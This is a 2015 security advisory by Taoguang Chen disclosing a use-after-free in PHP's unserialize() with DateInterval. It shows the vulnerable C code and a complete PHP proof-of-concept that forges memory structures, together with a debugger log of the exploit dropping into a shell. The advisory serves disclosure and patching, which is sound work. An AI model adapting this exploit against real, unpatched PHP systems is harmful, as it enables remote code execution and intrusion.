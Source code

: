 #Use After Free Vulnerability in unserialize() with DateInterval
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.2.28 - Release Date: 2015.3.20
 
> A use-after-free vulnerability was discovered in unserialize() with DateInterval object's __wakeup() magic method that can be abused for leaking arbitrary memory blocks or execute arbitrary code remotely.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.7  
Affected is PHP 5.5 < 5.5.23  
Affected is PHP 5.4 < 5.4.39  
Affected is PHP 5.3 <= 5.3.29

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

``` c
static int php_date_interval_initialize_from_hash(zval **return_value, php_interval_obj **intobj, HashTable *myht TSRMLS_DC)
{
	(*intobj)->diff = timelib_rel_time_ctor();

#define PHP_DATE_INTERVAL_READ_PROPERTY(element, member, itype, def) \
	do { \
		zval **z_arg = NULL; \
		if (zend_hash_find(myht, element, strlen(element) + 1, (void**) &z_arg) == SUCCESS) { \
			convert_to_long(*z_arg); \
			(*intobj)->diff->member = (itype)Z_LVAL_PP(z_arg); \
		} else { \
			(*intobj)->diff->member = (itype)def; \
		} \
	} while (0);

#define PHP_DATE_INTERVAL_READ_PROPERTY_I64(element, member) \
	do { \
		zval **z_arg = NULL; \
		if (zend_hash_find(myht, element, strlen(element) + 1, (void**) &z_arg) == SUCCESS) { \
			convert_to_string(*z_arg); \
			DATE_A64I((*intobj)->diff->member, Z_STRVAL_PP(z_arg)); \
		} else { \
			(*intobj)->diff->member = -1LL; \
		} \
	} while (0);
```
 
The convert_to_long()\convert_to_string() leads to the ZVAL and all its children is freed from memory. However the unserialize() code will still allow to use R: or r: to set references to that already freed memory. There is a use after free vulnerability, and allows to execute arbitrary code.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.2 installation of PHP 5.5.14.

``` php
<?php

$f = $argv[1];
$c = $argv[2];

$fakezval1 = ptr2str(0x100b83008);
$fakezval1 .= ptr2str(0x8);
$fakezval1 .= "\x00\x00\x00\x00";
$fakezval1 .= "\x06";
$fakezval1 .= "\x00";
$fakezval1 .= "\x00\x00";

$data1 = 'a:3:{i:0;O:12:"DateInterval":1:{s:1:"y";a:2:{i:0;i:1;i:1;i:2;}}i:1;s:'.strlen($fakezval1).':"'.$fakezval1.'";i:2;a:1:{i:0;R:5;}}';

$x = unserialize($data1);
$y = $x[2];

// zend_eval_string()'s address
$y[0][0] = "\x6d";
$y[0][1] = "\x1e";
$y[0][2] = "\x35";
$y[0][3] = "\x00";
$y[0][4] = "\x01";
$y[0][5] = "\x00";
$y[0][6] = "\x00";
$y[0][7] = "\x00";

$fakezval2 = ptr2str(0x3b296324286624); // $f($c);
$fakezval2 .= ptr2str(0x100b83000);
$fakezval2 .= "\x00\x00\x00\x00";
$fakezval2 .= "\x05";
$fakezval2 .= "\x00";
$fakezval2 .= "\x00\x00";

$data2 = 'a:3:{i:0;O:12:"DateInterval":1:{s:1:"y";a:2:{i:0;i:1;i:1;i:2;}}i:1;s:'.strlen($fakezval2).':"'.$fakezval2.'";i:2;O:12:"DateInterval":1:{s:1:"y";a:1:{i:0;R:5;}}}';

$z = unserialize($data2);

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

?>
```

Test the PoC on the command line, then any PHP code can be executed:

``` shell
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run uafpoc.php assert "system\('sh'\)==exit\(\)"
Process 13472 launched: '/usr/bin/php' (x86_64)
sh: no job control in this shell
sh-3.2$ php -v
PHP 5.5.14 (cli) (built: Sep  9 2014 19:09:25) 
Copyright (c) 1997-2014 The PHP Group
Zend Engine v2.5.0, Copyright (c) 1998-2014 Zend Technologies
sh-3.2$ exit
exit
Process 13472 exited with status = 0 (0x00000000) 
(lldb) 
```
